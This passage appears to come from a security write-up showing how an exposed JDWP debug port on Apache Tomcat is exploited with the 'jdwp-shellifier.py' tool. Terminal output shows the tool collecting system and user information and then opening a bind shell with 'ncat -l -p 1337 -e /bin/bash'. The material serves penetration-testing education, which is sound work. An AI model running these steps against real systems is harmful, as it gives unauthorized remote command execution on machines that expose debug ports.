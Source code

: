  root@pwnbox:~/apache-tomcat-6.0.39\# ./bin/catalina.sh jpda start

 We execute our script without a command to execute, to simply get general system information:

```text
hugsy:~/labs % python2 jdwp-shellifier.py -t 192.168.2.9 
[+] Targeting ‘192.168.2.9:8000’
[+] Reading settings for ‘Java HotSpot(TM) 64-Bit Server VM – 1.6.0_65’
[+] Found Runtime class: id=466[+] Found Runtime.getRuntime(): id=7facdb6a8038
[+] Created break event id=2
[+] Waiting for an event on ‘java.net.ServerSocket.accept’## Here we wait for breakpoint to be triggered by a new connection ##
[+] Received matching event from thread 0x8b0
[+] Found Operating System ‘Mac OS X’
[+] Found User name ‘pentestosx’
[+] Found ClassPath ‘/Users/pentestosx/Desktop/apache-tomcat-6.0.39/bin/bootstrap.jar’
[+] Found User home directory ‘/Users/pentestosx’
[!] Command successfully executed
```

Same command line, but against a Windows system and breaking on a totally different method:

```text
hugsy:~/labs % python2 jdwp-shellifier.py -t 192.168.2.8 –break-on ‘java.lang.String.indexOf’
[+] Targeting ‘192.168.2.8:8000’
[+] Reading settings for ‘Java HotSpot(TM) Client VM – 1.7.0_51’
[+] Found Runtime class: id=593
[+] Found Runtime.getRuntime(): id=17977a9c
[+] Created break event id=2
[+] Waiting for an event on ‘java.lang.String.indexOf’
[+] Received matching event from thread 0x8f5
[+] Found Operating System ‘Windows 7’
[+] Found User name ‘hugsy’
[+] Found ClassPath ‘C:UsershugsyDesktopapache-tomcat-6.0.39binbootstrap.jar’
[+] Found User home directory ‘C:Usershugsy’
[!] Command successfully executed
```

We execute our exploit to spawn a bind shell with the payload  “ncat -e /bin/bash -l -p 1337”, against a Linux system:

```text
hugsy:~/labs % python2 jdwp-shellifier.py -t 192.168.2.8 –cmd ‘ncat -l -p 1337 -e /bin/bash’
[+] Targeting ‘192.168.2.8:8000’
[+] Reading settings for ‘OpenJDK Client VM – 1.6.0_27’
[+] Found Runtime class: id=79d
[+] Found Runtime.getRuntime(): id=8a1f5e0
[+] Created break event id=2
[+] Waiting for an event on ‘java.net.ServerSocket.accept’
[+] Received matching event from thread 0x82a[+] Selected payload ‘ncat -l -p 1337 -e /bin/bash’
[+] Command string object created id:82b
[+] Runtime.getRuntime() returned context id:0x82c
[+] found Runtime.exec(): id=8a1f5fc[+] Runtime.exec() successful, retId=82d
[!] Command successfully executed Success, we now have a listening socket!
root@pwnbox:~/apache-tomcat-6.0.39# netstat -ntpl | grep 1337
tcp        0      0 0.0.0.0:1337         0.0.0.0:*               LISTEN      19242/ncat      
tcp6       0      0 :::1337              :::*                    LISTEN      19242/ncat     
```
